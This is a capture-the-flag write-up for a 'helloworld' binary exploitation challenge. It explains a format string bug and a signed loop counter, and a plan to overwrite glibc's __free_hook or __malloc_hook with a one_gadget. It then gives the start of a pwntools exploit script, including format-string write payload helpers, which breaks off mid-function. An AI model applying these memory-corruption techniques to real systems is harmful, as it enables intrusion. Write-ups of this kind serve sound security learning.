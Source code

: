 ## helloworld
```
Description: A simple AI to greet the customers :chuckles:
server: nc 130.211.214.112 18016
file: ld.so, libc.so, helloworld
```

![](/img/inferno/helloworld1.png#float-right)

2 shot try format string with `exit(0)` at the end. Given ld.so and libc.so and if you've solved `3x17` from [pwnable.tw](https://pwnable.tw/), you should know where this challange will go. Here, there's another bug that could be used. Did you notice the `i` in for loop is signed? You coud change this to some negative number and gain more loop to format string. Then change `__free_hook` or `__malloc_hook` to `one_gadget` and call `printf("%65537c")` to get `malloc`/`free` called, [more info about this](https://code.woboq.org/userspace/glibc/stdio-common/vfprintf-internal.c.html#1665).

```py
#!/usr/bin/env python
from pwn import *

# context.arch = "amd64"
# context.log_level = "debug" # debug, info, warn
context.terminal = ["tmux", "splitw", "-h"]

BINARY = "./helloworld"
HOST = "130.211.214.112"
PORT = 18016

# elf = ELF(BINARY, checksec=False)
uu64 = lambda x: u64(x.ljust(8, "\x00"))
uu32 = lambda x: u32(x.ljust(4, "\x00"))

gdbscript = '''
brva 0x127D
'''

def hex2int(x):
    return int(x, 16)

def attach(r):
    if type(r) == process:
        gdb.attach(r, gdbscript)

def write8(addr, n):
    payload = '%{}c%11$hhn'.format((n & 0xFF) + 0x100)
    payload = payload.ljust(0x18, 'A')
    payload += p64(addr)
    r.send(payload)
    r.recv()

def write16(addr, n):
```